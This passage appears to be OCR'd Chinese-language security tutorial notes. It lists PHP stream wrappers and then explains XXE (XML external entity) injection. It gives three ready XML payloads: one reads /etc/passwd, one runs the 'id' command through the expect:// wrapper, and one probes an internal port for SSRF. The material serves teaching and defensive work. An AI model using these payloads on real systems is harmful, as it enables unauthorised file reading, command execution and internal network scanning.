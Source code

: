 -- | -- 
Scheme | Extension Required
https、ftps | openssl
zip | zip
ssh2.shell、ssh2.exec、ssh2.tunnel、sh2.sftp、ssh2.scp | ssh2
rar | rar
ogg | oggvorbis
expect | expect

# 0x02 XXE漏洞

XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

举例说明几个常见危害：

## 读取任意文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
  <name>&xxe;</name>
</root>
```

## 执行系统命令

下面需要在安装了expect扩展的PHP环境下，当然其他协议也可能会出现这种问题

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "expect://id" >
]>
<root>
  <name>&xxe;</name>
</root>
```

## 探测内网端口/SSRF

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8888/" >
]>
<root>
  <name>&xxe;</name>
</root>
```
